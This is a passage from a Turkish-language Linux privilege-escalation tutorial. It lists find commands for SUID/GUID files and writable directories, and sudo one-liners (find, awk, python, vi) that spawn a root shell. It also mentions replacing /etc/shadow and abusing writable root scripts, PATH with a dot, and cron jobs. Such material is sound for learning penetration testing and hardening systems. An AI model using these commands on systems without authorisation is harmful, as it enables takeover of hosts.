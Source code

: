 **SUID ve GUID dosyalarını bulma:**  

```bash
# SUID dosyalarını bul
find / -perm -u=s -type f 2>/dev/null

# GUID dosyalarını bul
find / -perm -g=s -type f 2>/dev/null
```

---

#### Sudo Haklarının İstismarı  

Sudo ile çalıştırılabilir programlara erişim varsa, yetkileri yükseltmek için kullanılabilir. Örneğin, `cp` komutuyla `/etc/shadow` dosyasını kendi kötü niyetli dosyanızla değiştirebilirsiniz.  

**Örnekler:**  
```bash
sudo find / -exec bash -i \;
sudo awk 'BEGIN {system("/bin/bash")}'

sudo python
import os
os.system("/bin/bash")

sudo vi
:set shell=/bin/bash
:shell
```

---

#### Root Tarafından Çalıştırılan Yazılabilir Scriptler  

Eğer root tarafından çalıştırılan ancak herkes tarafından yazılabilir bir script bulursanız, bu script’e kötü niyetli bir kod ekleyerek root yetkisi alabilirsiniz.  

**Dünya yazılabilir dosyaları bulun:**  
```bash
find / -writable -type d 2>/dev/null
```

---

#### Kötü PATH Yapılandırmaları  

PATH değişkeninde bir nokta (`.`) bulunuyorsa, mevcut dizindeki scriptler otomatik çalıştırılır. Sistem yöneticileri bu hatayı kolaylık için yapabilir.  

---

#### Cronjob’ların İstismarı  

Privileged (root) olarak çalıştırılan ancak diğer kullanıcılar tarafından düzenlenebilir scriptler varsa bu script’lere kötü niyetli kod eklenebilir.  
